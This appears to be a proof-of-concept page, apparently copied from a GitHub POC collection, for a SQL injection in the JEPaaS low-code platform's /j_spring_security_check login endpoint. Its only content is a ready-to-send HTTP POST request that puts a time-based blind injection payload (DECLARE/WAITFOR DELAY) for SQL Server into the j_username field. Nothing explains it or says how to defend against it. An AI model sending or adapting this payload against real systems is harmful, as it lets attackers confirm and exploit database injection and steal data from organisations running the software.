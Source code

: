 # jepaas_j_spring_security_check_sqli

from: https://github.com/wy876/POC/blob/main/JEPaaS%E4%BD%8E%E4%BB%A3%E7%A0%81%E5%B9%B3%E5%8F%B0j_spring_security_check%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

```
POST /j_spring_security_check HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
j_username=');DECLARE @x CHAR(9);SET @x=0x303a303a35;WAITFOR DELAY @x--
```
